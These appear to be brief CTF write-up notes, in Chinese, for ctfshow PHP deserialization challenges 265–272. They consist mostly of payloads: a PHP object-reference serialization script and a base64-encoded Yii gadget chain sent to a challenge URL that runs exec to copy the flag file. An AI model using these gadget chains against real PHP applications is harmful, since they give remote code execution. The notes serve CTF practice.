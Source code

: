 # 265 反序列化 引用指向

payload

```php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct(){
        $this->password=&$this->token;
    }
}
$a = new ctfshowAdmin();
echo serialize($a);
```

# 266 反序列化 伪协议 正则绕过

大小写正则绕过

伪协议

payload

```
O:7:"Ctfshow":0:{}
```

# 267-270 YII反序列化漏洞

267,268,269,270YII的反序列化漏洞都有点不同，看php ctf工程相关poc

paylod

```
http://b935dfa7-df55-41f0-a439-981d5123a6d1.challenge.ctf.show/index.php?r=backdoor/shell&code=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6NDoiZXhlYyI7czoyOiJpZCI7czoxNDoiY3AgL2ZsYSogMS50eHQiO31pOjE7czozOiJydW4iO319fX0=

http://b935dfa7-df55-41f0-a439-981d5123a6d1.challenge.ctf.show/1.txt
```

# 271 Laravel5.7 反序列化

payload payload在php ctf工程中

```
http://b935dfa7-df55-41f0-a439-981d5123a6d1.challenge.ctf.show/index.php?r=backdoor/shell&code=
```

# 272 Laravel5.8 反序列化

payload payload在php ctf工程中

